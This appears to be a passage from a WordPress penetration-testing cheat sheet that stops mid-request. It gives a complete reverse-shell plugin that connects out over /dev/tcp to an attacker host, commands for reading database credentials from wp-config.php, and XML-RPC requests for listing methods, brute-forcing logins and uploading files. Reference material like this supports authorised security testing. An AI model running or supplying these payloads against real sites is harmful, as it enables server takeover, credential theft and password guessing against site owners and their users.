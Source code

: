 ### Authenticated RCE
#### Template Editor
Modify a PHP page via the template editor, preferably the 404 page. Modified files are usually located under `/wp-content/themes/<theme>/<page>.php`.

#### Plugin Upload Functionality
Create a reverse shell plugin:
```php
<?php
/**
 * Plugin Name: Reverse Shell Plugin
 * Plugin URI:
 * Description: Reverse Shell Plugin
 * Version: 1.0
 */
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");
?>
```
Zip the PHP file and upload it via the plugin interface, then activate it.

### Pivoting
Check for plain-text database credentials in `wp-config.php`:
```sh
cat <wp-folder>/wp-config.php  # Local
wget <url>/wp-config.php  # Remote
```

### XML-RPC
#### Check if Active
Send the following request to `/xmlrpc.php`:
```xml
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

#### Credentials Bruteforce
Use `wp.getUsersBlogs`, `wp.getCategories`, or `metaWeblog.getUsersBlogs`:
```xml
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>[user]</value></param>
<param><value>[pass]</value></param>
</params>
</methodCall>
```

#### File Upload
Requires valid credentials:
```xml
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
  <methodName>wp.uploadFile</methodName>
  <params>
    <param><value><string>1</string></value></param>
    <param><value><string>[user]</string></value></param>
    <param><value><string>[pass]</string></value></param>
    <param>
      <value>
        <struct>
          <member>
```